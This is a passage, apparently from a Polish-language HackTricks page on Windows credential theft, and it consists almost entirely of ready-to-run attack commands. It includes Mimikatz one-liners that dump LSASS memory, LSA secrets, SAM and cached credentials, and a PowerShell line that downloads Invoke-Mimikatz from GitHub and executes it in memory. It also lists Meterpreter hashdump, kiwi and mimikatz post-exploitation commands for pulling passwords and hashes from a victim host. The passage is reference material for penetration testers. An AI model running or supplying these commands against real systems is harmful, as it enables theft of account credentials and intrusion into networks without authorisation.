 # Kradzież poświadczeń Windows

<details><summary><strong>Naucz się hackingu AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Poświadczenia Mimikatz
```bash
#Elevate Privileges to extract the credentials
privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins
token::elevate
#Extract from lsass (memory)
sekurlsa::logonpasswords
#Extract from lsass (service)
lsadump::lsa /inject
#Extract from SAM
lsadump::sam
#One liner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```
**Znajdź inne rzeczy, które Mimikatz może zrobić na** [**tej stronie**](credentials-mimikatz.md)**.**

### Invoke-Mimikatz
```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```
[**Dowiedz się więcej o możliwych zabezpieczeniach poświadczeń tutaj.**](credentials-protections.md) **Te zabezpieczenia mogą uniemożliwić Mimikatz wyciągnięcie niektórych poświadczeń.**

## Poświadczenia z Meterpreter

Użyj [**Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **który stworzyłem, aby** **wyszukiwać hasła i hashe** wewnątrz ofiary.
```bash
#Credentials from SAM
post/windows/gather/smart_hashdump
hashdump

#Using kiwi module
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam"

#Using Mimikatz module
load mimikatz
mimikatz_command -f "sekurlsa::logonpasswords"
mimikatz_command -f "lsadump::lsa /inject"
mimikatz_command -f "lsadump::sam"
```
## Omijanie AV
